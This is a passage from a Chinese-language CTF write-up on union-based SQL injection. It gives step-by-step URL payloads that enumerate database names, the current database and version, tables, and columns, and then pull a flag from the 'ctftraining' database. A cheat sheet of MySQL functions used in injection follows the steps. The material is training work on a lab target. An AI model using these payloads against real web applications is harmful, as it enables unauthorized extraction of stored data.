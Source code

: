 ![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732015972281-5e97a676-ecad-458a-af92-3ff143ab61fa.png)

#### <font style="color:rgb(51, 51, 51);">5.爆出数据库名称</font>
```sql
?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732015238600-3d289691-c5b3-42db-9217-15d64a17001d.png)

#### 6.爆出当前所属的数据库和版本
**看当前再 security 库，所以之后要跨库查询**

```sql
?id=-1' union select 1,2,group_concat(database(),version())--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732111539831-3752e9af-02c7-414d-af06-f4566d00f3c4.png)

#### <font style="color:rgb(51, 51, 51);">7.爆出表名</font>
```sql
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ctftraining'--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732015261814-1d28ce58-396d-4f52-ac22-8a6fa799c679.png)

#### <font style="color:rgb(51, 51, 51);">8.爆出列名</font>
```sql
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='flag'--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732015343654-e7771f23-df3e-4da8-8703-c9117ca342f5.png)

#### <font style="color:rgb(51, 51, 51);">9.查询</font>
```sql
?id=-1' union select 1,2,flag from ctftraining.flag--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732015525444-f95b6f59-7378-4e1b-aef3-78be2368a39f.png)



#### 补充：
```sql
#一些SQL注入常用的函数
version()                 # 查看数据库版本
database()                # 查看当前数据库名
user()                    # 查看当前数据库用户
system_user()             # 查看系统用户名
group_concat()            # 把数据库中的某列数据或某几列数据合并为一个字符串
@@datadir                 # 查看数据库路径
@@version_compile_os      # 查看操作系统
```
